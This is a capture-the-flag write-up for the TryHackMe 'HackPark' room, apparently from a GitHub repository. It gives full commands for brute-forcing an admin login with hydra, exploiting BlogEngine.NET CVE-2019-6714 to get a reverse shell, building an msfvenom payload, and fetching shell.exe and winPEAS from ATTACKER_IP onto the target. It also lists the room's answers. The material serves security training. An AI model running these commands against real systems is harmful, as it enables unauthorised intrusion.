

## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gain Access](#gain-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Performing a `nmap` scan shows 2 ports open:
```shell-session
$ sudo nmap -oN nmap_scan.txt -sS -vv -Pn --top-ports 2000 TARGET_IP

PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127

# Service Scan:
$ sudo nmap -sV -v -Pn -p80,3389 TARGET_IP 
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 80 is hosting a web server, so we can visit it using a browser. Doing so takes us to a page with a large image of the clown from the movie: _IT_ (Pennywise). 

> What's the name of the clown displayed on the homepage?
>
> Answer: Pennywise

There's also a login page that can be accessed through the menu on the site:


The answer to the next question in the task is:
> What request type is the Windows website login form using?
>
> Answer: POST

We can try to brute force this page and get credentials to access dashboards...

Before doing so, let's have a look at the request sent by the browser when we try to login (using burpsuite):
```HTTP
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: TARGET_IP
Content-Length: 754
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://TARGET_IP
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://TARGET_IP/Account/login.aspx?ReturnURL=%2fadmin%2f
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

__VIEWSTATE=ZYDPgbo6PPbwOT2Mn79PRxOj2KAitM6qGzG8PvrhdQ0mhB558OwWVsyZPCfvK0Ux99LOmK99fD71tRh9%2FT9zyANOnNPgYD41WBeOFxFDoz95lpwjulKWbPp4DPw2GPHVjrnFsTnLBuxxMt%2FN92PmAQobgHl8Y0wv76Mry2hDgQQmM%2B0leUopZFzkBNPIKKYoijGHEeqdMQNXCLjqFGT84KfwXX1P7MFDzeKZdHbGL26YM1lSqMgYY04pLxog6KiaOCoOGO4qd%2BZDKSQ5pt%2FqLQ5EE79RnC4UUvfJdBX4qQ0C7XTvIl5SfFIgg%2FiznUJYNKjPhjEheD2HKdFufYnbx%2BXX6CGM%2BufJQn%2FuZlma8%2FvtU3vd&__EVENTVALIDATION=cATZvOlVaLIRFaqFkdYaC%2F3nD3qbL%2BFzHncM1DwHiN1TuEP5rU2lqj2oUgmfNZQ9MjhfQPvp02XWYzjiD%2BbHPZiLswWxWgEFfmkDg7lB1pWIAPE2K6KlarbGgU1TKBbt3YnuoylDYSxdKDoFEwGE6kFzqNQ3soFuov%2FLG6httNDTKZI7&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

We can use the `_VIEWSTATE` part of this with hydra for the bruteforcing process.

## Gaining Access

Using `hydra` to brute force the login page we obtain the required credentials:
```shell-session
$ sudo hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt TARGET_IP http-post-form "/Account/login.aspx:__VIEWSTATE=ZYDPgbo6PPbwOT2Mn79PRxOj2KAitM6qGzG8PvrhdQ0mhB558OwWVsyZPCfvK0Ux99LOmK99fD71tRh9%2FT9zyANOnNPgYD41WBeOFxFDoz95lpwjulKWbPp4DPw2GPHVjrnFsTnLBuxxMt%2FN92PmAQobgHl8Y0wv76Mry2hDgQQmM%2B0leUopZFzkBNPIKKYoijGHEeqdMQNXCLjqFGT84KfwXX1P7MFDzeKZdHbGL26YM1lSqMgYY04pLxog6KiaOCoOGO4qd%2BZDKSQ5pt%2FqLQ5EE79RnC4UUvfJdBX4qQ0C7XTvIl5SfFIgg%2FiznUJYNKjPhjEheD2HKdFufYnbx%2BXX6CGM%2BufJQn%2FuZlma8%2FvtU3vd&__EVENTVALIDATION=cATZvOlVaLIRFaqFkdYaC%2F3nD3qbL%2BFzHncM1DwHiN1TuEP5rU2lqj2oUgmfNZQ9MjhfQPvp02XWYzjiD%2BbHPZiLswWxWgEFfmkDg7lB1pWIAPE2K6KlarbGgU1TKBbt3YnuoylDYSxdKDoFEwGE6kFzqNQ3soFuov%2FLG6httNDTKZI7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -I -t 64

...

[80][http-post-form] host: TARGET_IP   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
```

We have the credentials to access `admin`'s dashboard.

> Guess a username, choose a password wordlist and gain credentials to a user account!
>
> Answer: `1qaz2wsx`

Visiting the _about_ page from the dashboard, we can chcek the version of BlogEngine, along with more details...

> Now you have logged into the website, are you able to identify the version of the BlogEngine?
>
> Answer: `3.3.6.0`

We can use `searchsploit` or ExploitDB to search for an exploit. Particularly, we can use [this](https://www.exploit-db.com/exploits/46353) exploit for RCE and gaining an initial reverse shell access to the target system. 

```cs
# Exploit Title: BlogEngine.NET <= 3.3.6 Directory Traversal RCE
# Date: 02-11-2019
# Exploit Author: Dustin Cobb
# Vendor Homepage: https://github.com/rxtur/BlogEngine.NET/
# Software Link: https://github.com/rxtur/BlogEngine.NET/releases/download/v3.3.6.0/3360.zip
# Version: <= 3.3.6
# Tested on: Windows 2016 Standard / IIS 10.0
# CVE : CVE-2019-6714
```

> What is the CVE?
>
> Answer: `CVE-2019-6714`

Using the exploit, we gain initial access to the server (follow the instructions in the comments in the exploit file). Go to the posts published by the user and go into the editing mode. Open the file manager and upload the exploit file. Once that is done, we visit the url: `http://TARGET_IP/?theme=../../App_Data/files` to trigger the exploit. Before triggering the exploit, we'll also need a listener:

```shell-session
$ sudo msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4445 
```

After starting this listener, we can go to the mentioned URL and obtain a shell session:

```shell-session
[*] Command shell session 1 opened (ATTACKER_IP:4445 -> TARGET_IP:49336) at 2022-11-26 10:57:28 +0330


Shell Banner:
Microsoft Windows [Version 6.3.9600]
-----
          
c:\windows\system32\inetsrv> whoami
iis apppool\blog
```

> Who is the webserver running as?
>
> Answer: `iis apppool\blog`

## Privilege Escalation

Generating a reverse shell payload using `msfvenom`:
```shell-session
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4446 -f exe -o shell.exe
```

Next, we'll start a http server and request the file from the previous shell session:
```shell-session
$ python3 -m http.server 4443
Serving HTTP on 0.0.0.0 port 4443 (http://0.0.0.0:4443/) ...

# On the shell session
c:\Users\Public\Documents>PowerShell Invoke-WebRequest -Uri http://ATTACKER_IP:4443/shell.exe -Outfile shell.exe
```

Now, we can execute the `shell.exe` file to get a meterpreter shell:
```shell-session
c:\Users\Public\Documents>start shell.exe

# Metasploit handler/listener:
[*] Sending stage (175686 bytes) to TARGET_IP
[*] Meterpreter session 13 opened (ATTACKER_IP:4446 -> TARGET_IP:49218) at 2022-11-26 11:38:20 +0330

meterpreter >
```

We can now try to get some information for escalation:
```shell-session
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

> What is the OS version of this windows machine?
>
> Answer: `Windows 2012 R2 (6.3 Build 9600)`

Using `winPEAS` for further enumeration:
```shell-session
meterpreter > cd "C:\Users\Public\Documents\ "
meterpreter > shell
Process 2436 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Documents> powershell -c wget "http://ATTACKER_IP:4443/winPEAS.bat" -outfile winPEAS.bat

```

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [HackPark](https://tryhackme.com/room/hackpark)
